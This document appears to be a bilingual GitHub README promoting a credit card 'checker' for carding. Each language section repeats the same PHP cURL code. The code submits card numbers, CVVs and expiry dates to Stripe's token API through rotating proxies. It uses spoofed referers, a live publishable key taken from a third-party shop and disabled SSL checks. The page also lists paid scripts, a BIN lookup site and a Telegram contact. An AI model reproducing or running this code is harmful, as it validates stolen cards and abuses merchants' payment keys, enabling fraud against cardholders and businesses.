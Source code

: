 <a href="http://uncensored.vzpla.net/"><img src="https://i62.servimg.com/u/f62/12/98/31/84/logo10.jpg?v=3&s=200" title="Unc3ns0r3d Checker" alt="Unc3ns0r3d Checker v2"></a>

# ⛔Unc3ns0r3d-Checker⛔

> Language: EN (ENGLISH)

✔ Credit card 💳 checker, based on real donation systems and other type of donations.


```php
// cURL Stripe Method by ⛔UJnc3ns0r3d⛔

$url1 = 'https://api.stripe.com/v1/tokens';
$url2 = 'https://www.anime-shop-online.com/cart';
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL,$url1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_PROXY, "http://$re_proxy:$port");
curl_setopt($ch, CURLOPT_PROXYUSERPWD, "$username-session-$session:$password");
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
    curl_setopt($ch, CURLOPT_HTTPHEADER, array(
   'Host: api.stripe.com',
'User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0',
'Accept: application/json',
'Content-Type: application/x-www-form-urlencoded',
'Referer: https://js.stripe.com/v2/channel.html?stripe_xdm_e=https%3A%2F%2Fwww.thelambcenter.org&stripe_xdm_c=default816925&stripe_xdm_p=1',
'Connection: keep-alive'
    ));
curl_setopt($ch, CURLOPT_POSTFIELDS, 'card[name]='.$name.'+'.$last.'&card[number]='.$cc.'&card[cvc]='.$cvv.'&card[exp_month]='.$mes.'&card[exp_year]='.$ano.'&guid=061ff506-3903-498a-8f51-6c186f16f8ca&muid=7aea1b41-a3a5-4a59-adcd-c1b9697c50d2&sid=9f8fcbca-42eb-4131-9f86-d326ea6a5af2&payment_user_agent=stripe.js%2Fc272b3d3%3B+stripe-js-v3%2Fc272b3d3&referrer=https%3A%2F%2Fwww.anime-shop-online.com%2Fcart&key=pk_live_mw2Cnk8hIQMzEbJMcA2gjYNy&pasted_fields=number%2Ccvc');
$pagamento = curl_exec($ch);
$token = trim(strip_tags(getstr($pagamento,'id": "','"')));
```
###  SITES 🌐


- **Site API 1**
    - https://api.stripe.com/v1/tokens
    
- **Site BIN 1**
    - https://lookup.binlist.net/


### Files included 📂

- api.php **Free**
- api_1.php **Free**
- api_p1.php **Pay**
- api_p2.php **Pay**


### About Me 👨‍💻

Founder of Unc3ns0r3d💳 - HasBins💳 - CloudChckr💳 (Closed)

My favorite programming languages are C ++, VB.NET, PYTHON, PHP, JAVASCIPRT and JQUERY❤

I love coffee❤

The Unc3ns0r3d project was created 04/26/2018

### Contact Me ✉
- @MrPopos2 - Telegram

================================================================

> Idioma: ES (Español)

Checker de tarjetas de crédito, basado en sistemas de donación reales y stripe

```php
// cURL Stripe Method by ⛔UJnc3ns0r3d⛔

$url1 = 'https://api.stripe.com/v1/tokens';
$url2 = 'https://www.anime-shop-online.com/cart';
$ch = curl_init();
curl_setopt($ch, CURLOPT_URL,$url1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_PROXY, "http://$re_proxy:$port");
curl_setopt($ch, CURLOPT_PROXYUSERPWD, "$username-session-$session:$password");
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_setopt($ch, CURLOPT_USERAGENT, $_SERVER['HTTP_USER_AGENT']);
curl_setopt($ch, CURLOPT_FOLLOWLOCATION, 1);
curl_setopt($ch, CURLOPT_RETURNTRANSFER, 1);
curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, 0);
curl_setopt($ch, CURLOPT_SSL_VERIFYHOST, 0);
curl_setopt($ch, CURLOPT_COOKIEFILE, getcwd().'/cookie.txt');
curl_setopt($ch, CURLOPT_COOKIEJAR, getcwd().'/cookie.txt');
    curl_setopt($ch, CURLOPT_HTTPHEADER, array(
   'Host: api.stripe.com',
'User-Agent: Mozilla/5.0 (Windows NT 6.3; Win64; x64; rv:56.0) Gecko/20100101 Firefox/56.0',
'Accept: application/json',
'Content-Type: application/x-www-form-urlencoded',
'Referer: https://js.stripe.com/v2/channel.html?stripe_xdm_e=https%3A%2F%2Fwww.thelambcenter.org&stripe_xdm_c=default816925&stripe_xdm_p=1',
'Connection: keep-alive'
    ));
curl_setopt($ch, CURLOPT_POSTFIELDS, 'card[name]='.$name.'+'.$last.'&card[number]='.$cc.'&card[cvc]='.$cvv.'&card[exp_month]='.$mes.'&card[exp_year]='.$ano.'&guid=061ff506-3903-498a-8f51-6c186f16f8ca&muid=7aea1b41-a3a5-4a59-adcd-c1b9697c50d2&sid=9f8fcbca-42eb-4131-9f86-d326ea6a5af2&payment_user_agent=stripe.js%2Fc272b3d3%3B+stripe-js-v3%2Fc272b3d3&referrer=https%3A%2F%2Fwww.anime-shop-online.com%2Fcart&key=pk_live_mw2Cnk8hIQMzEbJMcA2gjYNy&pasted_fields=number%2Ccvc');
$pagamento = curl_exec($ch);
$token = trim(strip_tags(getstr($pagamento,'id": "','"')));
```

###  SITIOS 🌐

- **Sitio API 1**
    - https://api.stripe.com/v1/tokens
    
- **Sitio BIN 1**
    - https://lookup.binlist.net/


### Archivos Incluidos 📂

- api.php **Gratuito**
- api_1.php **Gratuito**
- api_p1.php **Pago**
- api_p2.php **Pago**

### Sobre Mi 👨‍💻

Fundador de Unc3ns0r3d💳 - HasBins💳 - CloudChckr💳 (Cerrado)

Mis lenguajes favorios de programación son C ++, VB.NET, PYTHON, PHP, JAVASCIPRT y JQUERY❤

Amo el café❤

Proyecto Unc3ns0r3d fue creado el día 04/26/2018

### Contactame ✉
- @MrPopos2 - Telegram
